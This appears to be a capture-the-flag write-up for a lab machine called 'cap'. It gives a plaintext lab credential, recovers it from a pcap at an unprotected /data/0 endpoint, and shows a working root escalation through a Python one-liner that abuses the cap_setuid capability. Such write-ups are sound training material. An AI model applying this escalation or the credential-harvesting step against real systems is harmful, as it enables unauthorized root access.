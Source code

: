 ## Info 
### Credential
- `nathan:Buck3tH4TF0RM3!`

### FTP
- Use `nathan` to login
- pwd: `/home/nathan`

### Web
- Server: gunicorn
- `/data/<num>`: pcap files
	- `/data/0`: Nathan's credential in the pcap

### System
- `/usr/bin/python3.8` has `cap_setuid` capability.

## Path
### User
1. The `/data/<num>` start at 1, and if we try to view `/data/0`, we get the pcap from `192.168.196.16`, which is Nathan's pcap. In the pcap, it reveals Nathan's credential.
2. Use `nathan` to log on FTP, and we are in the `nathan`'s home directory, so we can get user flag.
3. We can use `nathan` to log on SSH.
### Root
4. Run `linpaes.sh` and found `python3.8` has `cap_setuid`. We can use it to gain root.
```
[+] Capabilities
...
Files with capabilities:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

5. Use `python3.8` to gain root.
```
nathan@cap:/tmp$ python3 -c 'import os;os.setuid(0); os.system("bash")'
root@cap:/tmp# whoami
root
```


